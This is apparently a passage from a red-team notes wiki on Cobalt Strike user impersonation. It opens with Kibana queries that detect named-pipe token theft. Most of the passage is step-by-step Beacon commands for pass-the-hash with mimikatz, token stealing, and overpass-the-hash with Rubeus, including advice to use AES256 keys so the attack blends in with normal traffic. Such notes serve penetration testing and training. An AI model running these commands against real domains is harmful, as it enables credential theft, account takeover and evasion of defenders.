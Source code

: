 #### Kibana Query

- Find the process that wrote the token to the named pipe and note the user who executed it

```kql
event.module: sysmon and event.type: process_start and process.name: cmd.exe and process.command_line: *\\\\.\\pipe\\*
```

- Find the logon session of the above user

```kql
event.code: 4624 and winlog.logon.id: 0xe6d64
```

### Technique #2: Spawning a Process and Stealing its Token

1. Create a fake sacrificial logon session
2. Replace the logon session's information with the domain, username, and NTLM hash of the target user
3. Within that logon session, run `$ANY_PROGRAM_TO_RUN`
	- Note the resultant `$PROCESS_ID`

```beacon
mimikatz sekurlsa::pth /domain:$DOMAIN /user:$USERNAME /ntlm:$NTLM /run:$ANY_PROGRAM_TO_RUN
```

4. Steal the token of the resultant process

```beacon
steal_token $PROCESS_ID
```

5. When finished, revert to your previous token and kill the process

```beacon
rev2self
kill $PROCESS_ID
```

---

## Overpass the Hash

Also known as [[pass-the-ticket|Pass the Ticket (PTT)]].

### Unelevated

1. Use the target user's [[cobalt-strike-user-impersonation#Dump Kerberos Encryption Keys of Logged On Users|Kerberos encryption key]] to request a Ticket Granting Ticket (TGT) for the target user
	- AES 128, AES 256, and RC4 (NTLM) keys can be used
		- However, Windows uses AES 256 keys by default, so you should too to blend in
	- See [[rubeus|Rubeus]]
	- Save the TGT to disk on the attacking machine

```beacon
execute-assembly $PATH_TO_RUBEUS asktgt /domain:$DOMAIN /user:$USER /aes256:$AES_256_KEY /nowrap /opsec
```
